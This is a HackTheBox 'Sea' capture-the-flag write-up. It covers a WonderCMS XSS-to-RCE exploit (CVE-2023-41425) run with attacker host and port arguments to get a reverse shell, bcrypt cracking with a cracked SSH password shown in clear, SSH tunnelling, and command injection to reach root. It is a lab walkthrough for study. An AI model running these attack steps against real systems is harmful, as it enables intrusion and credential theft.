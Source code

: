 ```yaml
---
title: "Sea - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Sea
![](https://kar0nx.github.io/assets/images/writeup/0011f6725aed869f8683589cb08c90d0.png)
## Reconnaissance

IP: 10.10.11.28
## NMAP

```
nmap -T4 -p- -A 10.10.11.28
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-25 09:37 EDT
Nmap scan report for 10.10.11.28
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sea - Home
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   29.82 ms 10.10.14.1
2   30.03 ms 10.10.11.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.55 seconds

```

Only HTTP and SSH are open.
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825153744.png)

3 shown sites, so let's dig deeper

### Directory busting

```
feroxbuster -u http://sea.htb -x php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825160146.png)

registration form, interesting that we can post link

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825190036.png)

we see version

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825160403.png)

using keywords (bike, 3.2.0, turboblack) in google I found:

https://github.com/robiso/bike and 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825161253.png)

so we know that it is wondercms and from version page we know that is 3.2.0 so let's look for rce

## Gaining Access

Tried few scripts of CVE-2023-41425 and this one is working for sure. Git clone it.

https://github.com/thefizzyfish/CVE-2023-41425-wonderCMS_RCE

use syntax from PoC

```
python3 CVE-2023-41425.py -rhost http://sea.htb/loginURL -lhost 10.10.14.8 -lport 4444 -sport 8000
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825171254.png)

set listner and put xss generated by script into website field in registration.php and send. After about 30sec I got reverse shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825171312.png)

enumerating sea directory I found database.js containing hashed password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825172550.png)

cp hash to kali and remove escaping backslashes \ from js. Found valid module for hashcat and cracked password.

```
hashcat hash /usr/share/wordlists/rockyou.txt -m 3200
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825173219.png)

from nmap we know that ssh is open so let's give it a try.

```
ssh amay@10.10.11.28       mychemicalromance
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825173332.png)

## Privilege Escalation

from linpeas we see that machine listening on 2 local ports. Let's make a tunel and check this.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825174432.png)

```
ssh -L 8000:127.0.0.1:8080 amay@sea.htb
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825174756.png)

only 8080 if working properly so enumerate it.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825174812.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825175215.png)

it looks like this is only reading log files from system, let's try inject other command 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825175849.png)

here we go! we can read root/root.txt from here but let's try make a reverse shell

After few attempts i manage to do it but reverse shell stays only for about 5sec 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250825180553.png)